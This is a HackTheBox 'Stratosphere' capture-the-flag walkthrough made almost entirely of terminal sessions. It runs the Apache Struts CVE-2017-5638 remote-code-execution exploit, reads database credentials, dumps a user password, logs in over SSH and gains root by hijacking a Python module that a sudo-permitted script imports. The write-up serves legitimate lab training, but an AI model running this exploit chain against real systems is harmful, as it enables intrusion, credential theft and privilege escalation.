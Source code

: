 ```yaml
---
title: "HackTheBox - Stratosphere"
date: 2010-01-01T01:01:56+01:00
toc: false
images:
tags:
  - hackthebox
  - ctf
---
```


[![Kurzes Video Walkthrough ohne Erklärungen](http://img.youtube.com/vi/YOUTUBE_VIDEO_ID_HERE/0.jpg)](http://www.youtube.com/watch?v=YOUTUBE_VIDEO_ID_HERE)

root@kali:~# searchsploit apache struts  
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------$  
Exploit Title | Path  
| (/usr/share/exploitdb/)  
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------  
[...]  
Apache Struts 2.3.5 < 2.3.31 / 2.5 < 2.5.10 - Remote Code Execution | exploits/linux/webapps/41570.py  
[...]

root@kali:~# searchsploit -m exploits/linux/webapps/41570.py  
Exploit: Apache Struts 2.3.5 < 2.3.31 / 2.5 < 2.5.10 - Remote Code Execution  
URL: https://www.exploit-db.com/exploits/41570/  
Path: /usr/share/exploitdb/exploits/linux/webapps/41570.py  
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/41570.py

root@kali:~# python 41570.py http://10.10.10.64/Monitoring/example/Welcome.action id  
[*] CVE: 2017-5638 - Apache Struts2 S2-045  
[*] cmd: id

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

root@kali:~# python 41570.py http://10.10.10.64/Monitoring/example/Welcome.action "ls -alh"  
[*] CVE: 2017-5638 - Apache Struts2 S2-045  
[*] cmd: ls -alh

total 24K  
drwxr-xr-x 5 root root 4.0K Sep 2 17:06 .  
drwxr-xr-x 42 root root 4.0K Oct 3 2017 ..  
lrwxrwxrwx 1 root root 12 Sep 3 2017 conf -> /etc/tomcat8  
-rw-r--r-- 1 root root 68 Oct 2 2017 db_connect  
drwxr-xr-x 2 tomcat8 tomcat8 4.0K Sep 3 2017 lib  
lrwxrwxrwx 1 root root 17 Sep 3 2017 logs -> ../../log/tomcat8  
drwxr-xr-x 2 root root 4.0K Sep 2 17:06 policy  
drwxrwxr-x 4 tomcat8 tomcat8 4.0K Feb 10 2018 webapps  
lrwxrwxrwx 1 root root 19 Sep 3 2017 work -> ../../cache/tomcat8

root@kali:~# python 41570.py http://10.10.10.64/Monitoring/example/Welcome.action "cat db_connect"  
[*] CVE: 2017-5638 - Apache Struts2 S2-045  
[*] cmd: cat db_connect

[ssn]  
user=ssn_admin  
pass=AWs64@on*&

[users]  
user=admin  
pass=admin

root@kali:~# python 41570.py http://10.10.10.64/Monitoring/example/Welcome.action 'mysql --user=admin --password=admin -e "show databases;"'  
[*] CVE: 2017-5638 - Apache Struts2 S2-045  
[*] cmd: mysql --user=admin --password=admin -e "show databases;"

Database  
information_schema  
users

root@kali:~# python 41570.py http://10.10.10.64/Monitoring/example/Welcome.action 'mysql --user=admin --password=admin -e "use users; show tables;"'  
[*] CVE: 2017-5638 - Apache Struts2 S2-045  
[*] cmd: mysql --user=admin --password=admin -e "use users; show tables;"

Tables_in_users  
accounts

root@kali:~# python 41570.py http://10.10.10.64/Monitoring/example/Welcome.action 'mysql --user=admin --password=admin -e "use users; select * from users.accounts;"'  
[*] CVE: 2017-5638 - Apache Struts2 S2-045  
[*] cmd: mysql --user=admin --password=admin -e "use users; select * from users.accounts;"

fullName password username  
Richard F. Smith 9tc*rhKuG5TyXvUJOrE^5CK7k richard

root@kali:~# ssh richard@10.10.10.64  
The authenticity of host '10.10.10.64 (10.10.10.64)' can't be established.  
ECDSA key fingerprint is SHA256:tQZo8j1TeVASPxWyDgqJf8PaDZJV/+LeeBZnjueAW/E.  
Are you sure you want to continue connecting (yes/no)? yes  
Warning: Permanently added '10.10.10.64' (ECDSA) to the list of known hosts.  
richard@10.10.10.64's password:  
Linux stratosphere 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u2 (2018-02-21) x86_64

The programs included with the Debian GNU/Linux system are free software;  
the exact distribution terms for each program are described in the  
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
permitted by applicable law.  
Last login: Mon Sep 3 09:07:51 2018 from 10.10.15.86  
richard@stratosphere:~$ ls -alh  
total 56K  
drwxr-x--- 7 richard richard 4.0K Sep 3 08:57 .  
drwxr-xr-x 4 root root 4.0K Sep 19 2017 ..  
lrwxrwxrwx 1 root root 9 Feb 10 2018 .bash_history -> /dev/null  
-rw-r--r-- 1 richard richard 220 Sep 19 2017 .bash_logout  
-rw-r--r-- 1 richard richard 3.5K Sep 19 2017 .bashrc  
drwxr-xr-x 3 richard richard 4.0K Oct 18 2017 .cache  
drwxr-xr-x 3 richard richard 4.0K Oct 18 2017 .config  
drwxr-xr-x 2 richard richard 4.0K Sep 3 02:04 .nano  
-rw-r--r-- 1 richard richard 675 Sep 19 2017 .profile  
drwxrwxrwx 2 richard richard 4.0K Oct 18 2017 Desktop  
drwxr-xr-x 2 root root 4.0K Sep 3 05:56 __pycache__  
-rw-r--r-- 1 richard richard 11 Sep 3 09:08 hashlib.py  
-rw-r--r-- 1 root root 175 Sep 3 07:59 hashlib.pyc  
-rwxr-x--- 1 root richard 1.5K Mar 19 15:23 test.py  
-r-------- 1 richard richard 33 Feb 27 2018 user.txt  
richard@stratosphere:~$ cat user.txt  
e61##########################36b

richard@stratosphere:~$ sudo -l  
Matching Defaults entries for richard on stratosphere:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User richard may run the following commands on stratosphere:  
(ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py  
richard@stratosphere:~$ cat test.py  
#!/usr/bin/python3  
import hashlib

def question():  
q1 = input("Solve: 5af003e100c80923ec04d65933d382cb\n")  
md5 = hashlib.md5()  
md5.update(q1.encode())  
if not md5.hexdigest() == "5af003e100c80923ec04d65933d382cb":  
print("Sorry, that's not right")  
return  
print("You got it!")  
q2 = input("Now what's this one? d24f6fb449855ff42344feff18ee2819033529ff\n")  
sha1 = hashlib.sha1()  
sha1.update(q2.encode())  
if not sha1.hexdigest() == 'd24f6fb449855ff42344feff18ee2819033529ff':  
print("Nope, that one didn't work...")  
return  
print("WOW, you're really good at this!")  
q3 = input("How about this? 91ae5fc9ecbca9d346225063f23d2bd9\n")  
md4 = hashlib.new('md4')  
md4.update(q3.encode())  
if not md4.hexdigest() == '91ae5fc9ecbca9d346225063f23d2bd9':  
print("Yeah, I don't think that's right.")  
return  
print("OK, OK! I get it. You know how to crack hashes...")  
q4 = input("Last one, I promise: 9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943\n")  
blake = hashlib.new('BLAKE2b512')  
blake.update(q4.encode())  
if not blake.hexdigest() == '9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943':  
print("You were so close! urg... sorry rules are rules.")  
return

import os  
os.system('/root/success.py')  
return

question()

richard@stratosphere:~$ echo "import pty; pty.spawn('/bin/sh')" > hashlib.py  
richard@stratosphere:~$ sudo /usr/bin/python /home/richard/test.py  
# id  
uid=0(root) gid=0(root) groups=0(root)  
# cat /root/root.txt  
d41##########################27e